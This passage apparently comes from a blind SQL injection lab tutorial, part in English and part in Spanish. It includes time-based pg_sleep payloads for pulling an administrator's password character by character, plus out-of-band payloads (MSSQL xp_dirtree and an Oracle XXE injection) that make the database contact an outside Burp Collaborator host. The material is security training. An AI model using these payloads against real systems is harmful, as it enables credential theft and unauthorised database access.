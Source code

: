     `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
16. Launch the modified attack, review the results, and note the character at the second offset.
17. Continue this process testing offset 3, 4, and so on, until you have the whole password.
18. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

---
## Exploiting blind SQL injection using out-of-band (OAST) techniques

Una aplicación podría realizar la misma consulta SQL que en el ejemplo anterior pero hacerlo de forma asincrónica. La aplicación continúa procesando la solicitud del usuario en el hilo original y utiliza otro hilo para ejecutar una consulta SQL utilizando la cookie de seguimiento. La consulta sigue siendo vulnerable a la inyección SQL, pero ninguna de las técnicas descritas hasta ahora funcionará. La respuesta de la aplicación no depende de que la consulta devuelva ningún dato, de que se produzca un error en la base de datos o del tiempo necesario para ejecutar la consulta.

En esta situación, a menudo es posible explotar la vulnerabilidad de inyección SQL ciega activando interacciones de red fuera de banda con un sistema que usted controla. Estos pueden activarse en función de una condición inyectada para inferir información pieza por pieza. Lo que es más útil es que los datos se pueden extraer directamente dentro de la interacción de la red.

Se pueden utilizar diversos protocolos de red para este fin, pero normalmente el más eficaz es el DNS (servicio de nombres de dominio). Muchas redes de producción permiten la salida libre de consultas DNS porque son esenciales para el funcionamiento normal de los sistemas de producción.

La herramienta más sencilla y fiable para utilizar técnicas fuera de banda es Burp Collaborator. Este es un servidor que proporciona implementaciones personalizadas de varios servicios de red, incluido DNS. Le permite detectar cuándo se producen interacciones de red como resultado del envío de cargas útiles individuales a una aplicación vulnerable. Burp Suite Professional incluye un cliente integrado que está configurado para funcionar con Burp Collaborator desde el primer momento. Para obtener más información, consulte la documentación de Burp Collaborator.

Las técnicas para activar una consulta DNS son específicas del tipo de base de datos que se utiliza. Por ejemplo, la siguiente entrada en Microsoft SQL Server se puede utilizar para realizar una búsqueda de DNS en un dominio específico:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Esto hace que la base de datos realice una búsqueda para el siguiente dominio:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Puede utilizar Burp Collaborator para generar un subdominio único y sondear el servidor de Collaborator para confirmar cuándo se producen búsquedas de DNS.

--------
1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modifique la `TrackingId`cookie y cámbiela por una carga útil que desencadenará una interacción con el servidor colaborador. Por ejemplo, puede combinar la inyección SQL con técnicas XXE básicas de la siguiente manera:
    
    `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Haga clic derecho y seleccione "Insertar carga útil de Collaborator" para insertar un subdominio de Burp Collaborator donde se indica en la `TrackingId`cookie modificada.
